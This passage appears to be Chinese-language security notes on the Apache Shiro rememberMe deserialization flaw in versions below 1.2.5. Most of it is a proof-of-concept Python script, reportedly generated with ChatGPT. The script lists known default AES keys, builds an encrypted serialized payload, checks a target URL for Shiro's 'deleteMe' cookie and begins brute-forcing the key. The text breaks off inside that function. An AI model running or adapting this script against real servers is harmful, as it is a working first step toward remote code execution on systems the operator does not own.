 - Shiro < 1.2.5

#### POC

> 参考
>
> <https://blog.knownsec.com/index.html%3Fp=5100.html>
>
> <https://github.com/w-digital-scanner/w13scan/blob/master/W13SCAN/scanners/PerFile/shiro.py>
>
> 使用 ChatGPT 生成独立脚本

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import base64
import requests
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes

# 预定义的key列表
keys = [
    'kPH+bIxk5D2deZiIxcaaaA==', '4AvVhmFLUs0KTA3Kprsdag==', 'WkhBTkdYSUFPSEVJX0NBVA==',
    'RVZBTk5JR0hUTFlfV0FPVQ==', 'U3ByaW5nQmxhZGUAAAAAAA==',
    'cGljYXMAAAAAAAAAAAAAAA==', 'd2ViUmVtZW1iZXJNZUtleQ==', 'fsHspZw/92PrS3XrPW+vxw==',
    'sHdIjUN6tzhl8xZMG3ULCQ==', 'WuB+y2gcHRnY2Lg9+Aqmqg==',
    'ertVhmFLUs0KTA3Kprsdag==', '2itfW92XazYRi5ltW0M2yA==', '6ZmI6I2j3Y+R1aSn5BOlAA==',
    'f/SY5TIve5WWzT4aQlABJA==', 'Jt3C93kMR9D5e8QzwfsiMw==',
    'aU1pcmFjbGVpTWlyYWNsZQ==',
]

def generator_payload(key):
    payload = b'\xac\xed\x00\x05sr\x002org.apache.shiro.subject.SimplePrincipalCollection\xa8\x7fX%\xc6\xa3\x08J\x03\x00\x01L\x00\x0frealmPrincipalst\x00\x0fLjava/util/Map;xppw\x01\x00x'
    iv = b'w\xcf\xd7\x98\xa8\xe9LD\x97LN\xd0\xa6\n\xb8\x1a'
    backend = default_backend()
    cipher = Cipher(algorithms.AES(base64.b64decode(key)), modes.CBC(iv), backend=backend)
    encryptor = cipher.encryptor()
    BS = algorithms.AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    file_body = pad(payload)
    ct = encryptor.update(file_body) + encryptor.finalize()
    base64_ciphertext = base64.b64encode(iv + ct)
    return base64_ciphertext.decode()

def check_shiro(url):
    # 检查是否是Shiro框架
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36",
        "Cookie": "rememberMe=2"
    }
    response = requests.get(url, headers=headers)
    if "deleteMe" in response.headers.get('Set-Cookie', ''):
        print(f"[+] {url} 使用了 Shiro 框架")
        return True
    else:
        print(f"[-] {url} 不使用 Shiro 框架")
        return False

def brute_force_shiro_key(url):
    for key in keys:
        payload = generator_payload(key)
        headers = {
```